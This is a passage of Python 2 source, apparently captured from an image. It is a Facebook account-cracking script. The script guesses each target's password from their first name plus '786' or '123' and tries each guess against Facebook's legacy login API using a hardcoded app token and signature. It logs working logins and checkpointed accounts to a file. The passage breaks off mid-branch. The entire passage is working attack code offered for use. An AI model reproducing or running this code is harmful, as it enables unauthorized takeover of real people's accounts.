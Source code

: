 			pass1 = b['first_name'] + '786'

			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

			q = json.load(data)

			if 'access_token' in q:

				print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass1 + ' 👽 ' + b['name']

				oks.append(user+pass1)

			else:

				if 'www.facebook.com' in q["error_msg"]:

					print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass1 + ' 👽 ' + b['name']

					cek = open("out/CP.txt", "a")

					cek.write(user+"|"+pass1+"\n")

					cek.close()

					cekpoint.append(user+pass1)

				else:

					pass2 = b['first_name'] + '123'

					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

					q = json.load(data)

					if 'access_token' in q:

						print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass2 + ' 👽 ' + b['name']

						oks.append(user+pass2)

					else:

						if 'www.facebook.com' in q["error_msg"]:

							print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass2 + ' 👽 ' + b['name']

							cek = open("out/CP.txt", "a")

							cek.write(user+"|"+pass2+"\n")

							cek.close()

							cekpoint.append(user+pass2)

						else:
